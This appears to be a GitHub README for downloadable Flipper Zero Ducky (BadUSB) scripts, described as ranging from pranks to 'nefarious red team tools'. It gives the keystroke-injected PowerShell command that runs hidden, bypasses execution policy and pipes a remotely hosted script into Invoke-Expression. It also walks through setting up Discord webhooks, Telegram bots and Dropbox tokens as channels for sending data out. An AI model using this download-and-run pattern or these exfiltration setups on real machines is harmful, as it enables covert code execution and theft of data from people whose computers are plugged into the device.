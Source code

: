 # Downloadable-Ducky-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

**These scripts download and run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

eg. `replace DISCORD_WEBHOOK to your webhook.` etc..

**Setup for Telegram, Discord, Dropbox**

**DROPBOX ACCESS TOKEN SETUP**
1. make an app at https://www.dropbox.com/developers/apps (make sure to grant full access to your new app)
2. generate an access token for your app.

**DISCORD WEBHOOK SETUP**
1. (Server Admin Required) On a discord server chat goto > "edit channel" > "integrations" > "webhooks" 
2. make a new webhook, name it and then click "copy webhook URL".

**TELEGRAM BOT SETUP**
1. visit https://t.me/botfather and make a bot.
2. add bot api to script.
3. search for bot in top left box in telegram and start a chat then type /start.
4. add chat ID for the chat bot (use this below to find the chat id) 

`$token='YOUR_TOKEN' #Replace this with your bot Token
$URL='https://api.telegram.org/bot{0}' -f $Token
$inMessage=Invoke-RestMethod -Method Get -Uri ($URL +'/getUpdates') -ErrorAction Stop
$inMessage.result.message | write-output
$inMessage.result.message | get-member`

#  If you like my work please leave a star. ⭐


